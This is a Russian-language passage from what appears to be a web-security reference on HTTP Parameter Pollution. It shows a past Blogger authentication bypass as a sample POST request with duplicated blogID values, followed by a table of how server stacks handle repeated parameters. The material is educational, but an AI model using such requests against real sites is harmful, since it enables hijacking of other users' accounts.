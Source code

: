 ### Обход аутентификации

Еще более критическая уязвимость HPP была обнаружена в *Blogger*, популярная платформа для блогов. Ошибка позволила злоумышленникам взять на себя ответственность за блог жертвы, используя следующий HTTP-запрос (`https://www.blogger.com/add-authors.do`):

```html
POST /add-authors.do HTTP/1.1
[...]

security_token=attackertoken&blogID=attackerblogidvalue&blogID=victimblogidvalue&authorsList=goldshlager19test%40gmail.com(attacker email)&ok=Invite
```

Недостаток заключался в механизме аутентификации, используемом веб-приложением, поскольку проверка безопасности выполнялась для первого параметра `blogID`, тогда как фактическая операция использовала второе вхождение.

### Ожидаемое поведение со стороны Application Server

Следующая таблица иллюстрирует, как различные веб-технологии ведут себя при наличии нескольких вхождений одного и того же параметра HTTP.

Учитывая URL и строку запроса: `http://example.com/?color=red&color=blue`

  | Web Application Server Backend | Parsing Result | Example |
  |--------------------------------|----------------|--------|
  | ASP.NET / IIS | All occurrences concatenated with a comma |  color=red,blue |
  | ASP / IIS     | All occurrences concatenated with a comma | color=red,blue |
  | .NET Core 3.1 / Kestrel | All occurrences concatenated with a comma | color=red,blue |
  | .NET 5 / Kestrel | All occurrences concatenated with a comma | color=red,blue |
  | PHP / Apache  | Last occurrence only | color=blue |
  | PHP / Zeus | Last occurrence only | color=blue |
  | JSP, Servlet / Apache Tomcat | First occurrence only | color=red |
  | JSP, Servlet / Oracle Application Server 10g | First occurrence only | color=red |
  | JSP, Servlet / Jetty  | First occurrence only | color=red |
  | IBM Lotus Domino | Last occurrence only | color=blue |
  | IBM HTTP Server | First occurrence only | color=red |
  | node.js / express | First occurence only | color=red |
  | mod_perl, libapreq2 / Apache | First occurrence only | color=red |
  | Perl CGI / Apache | First occurrence only | color=red |
  | mod_wsgi (Python) / Apache | First occurrence only | color=red |
  | Python / Zope | All occurrences in List data type | color=['red','blue'] |
